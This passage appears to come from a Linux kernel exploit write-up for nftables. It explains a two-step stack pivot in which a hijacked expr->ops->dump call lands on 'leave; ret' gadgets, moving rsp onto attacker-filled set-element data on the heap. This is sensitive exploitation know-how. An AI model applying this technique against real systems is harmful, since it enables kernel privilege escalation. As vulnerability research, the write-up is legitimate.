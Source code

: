 
The first step of ROP start looks like this:
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x68 // mov rsp, rbp  
rbp = *(element + 0x68) //pop rbp  rbp=*(NFTA_SET_ELEM_DATA)
rsp = element + 0x70 
rip = *(element + 0x70) //ret   rip=*(NFTA_SET_ELEM_DATA + 8)
rsp = element + 0x78 
```
The second step of ROP is also:
```
leave; ret
```
After this, the `rsp` will be the value of the `NFTA_SET_ELEM_DATA[0]`. It will point to the heap, which we filled it with our ROP gadget in `Leak info` step 11.